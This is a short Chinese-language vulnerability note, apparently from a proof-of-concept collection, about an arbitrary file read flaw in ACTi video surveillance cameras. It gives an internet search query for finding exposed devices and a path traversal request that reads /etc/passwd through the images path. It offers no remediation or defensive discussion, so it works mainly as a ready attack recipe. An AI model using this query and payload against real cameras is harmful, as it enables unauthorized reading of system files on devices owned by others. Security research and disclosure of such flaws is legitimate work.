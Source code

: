 # ACTI 视频监控 images 任意文件读取漏洞

# ACTI 视频监控 images 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

```
ACTI摄像头
```

## 网络测绘

```
app="ACTi-视频监控"
```

## 漏洞复现

登录页面如下

![](/images/202202140926386.png)

使用Burp抓包

```plain
/images/../../../../../../../../etc/passwd
```

![](/images/202202140926873.png)

